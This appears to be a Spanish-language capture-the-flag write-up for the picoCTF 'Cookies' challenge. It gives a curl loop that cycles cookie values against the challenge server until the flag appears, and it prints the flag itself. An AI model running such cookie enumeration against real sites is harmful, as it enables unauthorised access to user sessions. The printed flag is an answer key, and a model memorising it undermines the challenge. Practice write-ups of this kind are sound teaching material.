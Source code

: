 
**Reto:**
-Encontrar la cookie que esta relacionada con la bandera.

**Descripción:**
-Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:27177/](http://mercury.picoctf.net:27177/)

**Solución:**
Examinar la página en todas las cookies posible hasta encontrar la bandera.
-Abrir la página.
-Ingresar la cookie que indica el sitio.
-Usando el comando "curl", ciclar con cada cookie posible y buscar el archivo de la cookie.
```
$ for i in {0..25}; do curl -s http://mercury.picoctf.net:27177/check -H "Cookie: name=$i"; done | grep picoCTF
```
-Una vez terminado el ciclo, el resultado va a aparecer en la terminal.

El resultado es: **picoCTF{3v3ry1_l0v3s_c00k135_064663be}**.

**Notas adicionales:**
-Es posible cambiar el número de la cookie usando el cookie editor o en la pestaña de "Application".

**Referencias:**
[http://mercury.picoctf.net:27177/](http://mercury.picoctf.net:27177/)
https://curl.se/docs/tutorial.html